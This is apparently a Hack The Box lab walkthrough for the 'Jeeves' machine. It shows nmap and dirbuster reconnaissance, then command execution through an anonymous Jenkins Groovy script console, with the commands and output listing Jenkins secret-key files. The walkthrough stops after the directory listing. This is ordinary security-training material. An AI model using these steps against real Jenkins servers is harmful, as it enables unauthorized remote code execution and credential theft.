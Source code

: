 Jeeves

https://www.hackthebox.eu/home/machines/profile/114

* Author: mrb3n
* Series: HTB

## Scan target using nmap

### Service Scan
```
nmap -sV 10.10.10.63
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-24 15:53 MDT
Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 995 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
50000/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.93 seconds
```

two http ports stand out
Going to run dirbuster on them
80, 50000

### Running Dirbuster on IIS 10.0
```
dirbuster -u http://10.10.10.63 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
```

### Running Dirbuster on JETTY 9.4
```
dirbuster -u http://10.10.10.63:50000 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /askjeeves/ - 200
Dir found: /askjeeves/about/ - 200
Dir found: / - 200
File found: /error.html - 200
File found: /jeeves.PNG - 200
Dir found: /askjeeves/people/ - 200

```

Testing out 10.10.10.63:50000/askjeeves
Discovered, anonymous access, navigated to Manage Jenkins
Clicked Script Console -

Type in an arbitrary Groovy script and execute it on the server. 
Useful for trouble-shooting and diagnostics. 
Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:

println(Jenkins.instance.pluginManager.plugins)

All the classes from all the plugins are visible. jenkins.*, jenkins.model.*, hudson.*, and hudson.model.* are pre-imported.

### Groovy Script Test
```
cmd = "whoami"
println cmd.execute().text

Result

jeeves\kohsuke
```	

```
cmd = "cmd.exe /c dir"
println cmd.execute().text
 
Result

 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\.jenkins

05/27/2018  03:12 PM    <DIR>          .
05/27/2018  03:12 PM    <DIR>          ..
05/27/2018  05:27 PM                48 .owner
05/27/2018  03:00 PM             1,756 config.xml
05/27/2018  02:46 PM               156 hudson.model.UpdateCenter.xml
05/27/2018  03:12 PM             1,178 hudson.plugins.emailext.ExtendedEmailPublisher.xml
11/03/2017  10:43 PM               374 hudson.plugins.git.GitTool.xml
11/03/2017  10:33 PM             1,712 identity.key.enc
11/03/2017  10:46 PM                94 jenkins.CLI.xml
12/24/2017  03:35 PM            75,276 jenkins.err.log
11/03/2017  10:47 PM           360,448 jenkins.exe
11/03/2017  10:47 PM               331 jenkins.exe.config
05/27/2018  02:47 PM                 4 jenkins.install.InstallUtil.lastExecVersion
11/03/2017  10:45 PM                 4 jenkins.install.UpgradeWizard.state
11/03/2017  10:46 PM               138 jenkins.model.DownloadSettings.xml
12/24/2017  03:38 PM             2,688 jenkins.out.log
05/27/2018  02:45 PM                 4 jenkins.pid
11/03/2017  10:46 PM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
11/03/2017  10:46 PM               162 jenkins.security.UpdateSiteWarningsConfiguration.xml
11/03/2017  10:47 PM        74,271,222 jenkins.war
05/27/2018  02:45 PM            34,147 jenkins.wrapper.log
11/03/2017  10:49 PM             2,881 jenkins.xml
11/03/2017  10:33 PM    <DIR>          jobs
11/03/2017  10:33 PM    <DIR>          logs
05/27/2018  02:47 PM               907 nodeMonitors.xml
11/03/2017  10:33 PM    <DIR>          nodes
11/03/2017  10:44 PM    <DIR>          plugins
11/03/2017  10:47 PM               129 queue.xml.bak
11/03/2017  10:33 PM                64 secret.key
11/03/2017  10:33 PM                 0 secret.key.not-so-secret
12/24/2017  03:47 AM    <DIR>          secrets
11/08/2017  09:52 AM    <DIR>          updates
11/03/2017  10:33 PM    <DIR>          userContent
11/03/2017  10:33 PM    <DIR>          users
11/03/2017  10:47 PM    <DIR>          war
11/03/2017  10:43 PM    <DIR>          workflow-libs
              24 File(s)     74,753,892 bytes
              12 Dir(s)   7,267,758,080 bytes free

```








